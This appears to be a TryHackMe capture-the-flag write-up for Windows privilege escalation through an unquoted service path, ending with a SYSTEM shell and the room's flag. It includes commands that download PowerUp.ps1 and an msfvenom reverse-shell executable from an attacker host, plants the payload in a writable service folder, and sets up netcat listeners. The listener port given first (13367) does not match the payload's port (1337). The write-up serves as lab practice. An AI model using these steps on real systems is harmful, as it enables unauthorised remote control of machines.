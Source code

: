 ### IP
`10.10.156.117`

# RDP

`rdesktop` didn't work for me, so I logged in with `remmina`

# Enumeration

I uploaded Powersploit's `PowerUp.ps1` to find potential privilege escalation techniques. 

I uploaded the file by starting a server:
	`python3 -m http.server`
I then downloaded the file on powershell:
	`Invoke-WebRequest -Uri "http://10.6.0.114:8000/PowerUp.ps1" -OutFile "C:\Users\Sage\PowerUp.ps1"`

### PowerUp

Luckily, there isn't any active AntiVirus here, so we can run this without any modification:

```pwsh
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```

We get the following output:

```
ServiceName    : Development Service
Path           : C:\Program Files\Development Files\Devservice Files\Service.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; 
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'Development Service' -Path <HijackPath>
CanRestart     : False
Name           : Development Service
Check          : Unquoted Service Paths

ServiceName    : Development Service
Path           : C:\Program Files\Development Files\Devservice Files\Service.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'Development Service' -Path <HijackPath>
CanRestart     : False
Name           : Development Service
Check          : Unquoted Service Paths

ServiceName    : Development Service
Path           : C:\Program Files\Development Files\Devservice Files\Service.exe
ModifiablePath : @{ModifiablePath=C:\Program Files\Development Files; IdentityReference=BUILTIN\Users; 
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'Development Service' -Path <HijackPath>
CanRestart     : False
Name           : Development Service
Check          : Unquoted Service Paths

ModifiablePath    : C:\Users\Sage\AppData\Local\Microsoft\WindowsApps
IdentityReference : THM-QUOTIENT\Sage
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\Sage\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\Sage\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\Sage\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

```

We can see that there is an unquoted service path vulnerability with the "Development Service" service

# Privilege Escalation

### Background

Unquoted service paths are a problem when the path has spaces in it because of the specific way that Windows tries to resolve the path.

In this case, the path of the service is `C:\Program Files\Development Files\Devservice Files\Service.exe`

Here, when the service is executed, Windows looks in the following paths when trying to execute:

1. `C:\Program.exe`
2. `C:\Program Files\Development.exe`
3. `C:\Program Files\Development Files\Devservice.exe`
4. `C:\Program Files\Development Files\Devservice Files\Service.exe`

Thus, we just need to find a writeable path and put our payload there.

I noticed that `C:\Program Files\Development Files\` was writeable, so I put my payload there

### Payload Generation

Running `systeminfo` on the machine shows that it is 64-bit windows machine.

Thus, we can generate a payload with a tcp reverse shell with the following command:

	`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.6.0.114 LPORT=1337 -f exe > Devservice.exe`

We can upload this payload the same way as we did before:

	`Invoke-WebRequest -Uri "http://10.6.0.114:8000/Devservice.exe" -OutFile "C:\Program Files\Development Files\Devservice.exe"`

This, when started, will provide us a shell as the user it was started with.

### Payload Execution

When we look at the `Services` gui utility on windows or look at the "Development Service" information with `sc qc "Development Service"` in cmd.exe, we can see the following information:

```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: Development Service
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Development Files\Devservice Files\Service.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Developmenet Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

```


`AUTO_START` indicates that this will start automatically on boot. 
`LocalSystem` indicates that this will start as the system user, which has admin access.

Thus, we can start a listener for the reverse shell on our local machine:
	`nc -lvnp 13367`

You can also get a (somewhat) interactive reverse shell with
	`rlwrap nc -lvnp 1337`

When we restart the machine, we get a reverse shell.
`whoami` shows `nt authority\system`

The flag is in `C:\Users\Administrator\Desktop\flag.txt`: `THM{USPE_SUCCESS}`
